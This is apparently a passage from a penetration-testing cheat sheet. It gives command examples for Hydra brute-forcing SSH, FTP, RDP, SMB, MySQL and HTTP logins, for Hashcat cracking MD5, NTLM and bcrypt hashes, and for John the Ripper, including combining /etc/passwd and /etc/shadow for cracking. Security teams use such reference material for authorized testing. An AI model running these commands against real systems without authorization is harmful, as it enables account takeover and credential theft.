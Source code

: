 **Common Usage Examples:**
```bash
# SSH Brute Force
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://target.com
# FTP Brute Force
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://target.com
# HTTP Basic Auth
hydra -l admin -P passwords.txt http-get://target.com/login
# RDP Brute Force
hydra -t 4 -V -f -l user -P /usr/share/wordlists/rockyou.txt rdp://target.com
# SMB Brute Force
hydra -l user -P /usr/share/wordlists/rockyou.txt smb://target.com
# MySQL Brute Force
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://target.com
```

#### Hashcat
Hashcat is a powerful password recovery tool for cracking hashes.

**Common Usage Examples:**
```bash
# Crack an MD5 hash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
# Crack a SHA1 hash
hashcat -m 100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
# Crack a NTLM hash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
# Crack a bcrypt hash
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
# Crack a ZIP file hash
hashcat -m 13600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
# Crack with rules
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -r rules/best64.rule
```

#### John the Ripper
John the Ripper is a fast password cracker, primarily for Unix-based systems.

**Common Usage Examples:**
```bash
# Basic usage
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# Crack a shadow file
unshadow /etc/passwd /etc/shadow > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
# Crack a ZIP file
zip2john secret.zip > zip.hash
john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
# Crack a Windows NTLM hash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ntlm_hash.txt
# Show cracked passwords
john --show hash.txt
```

---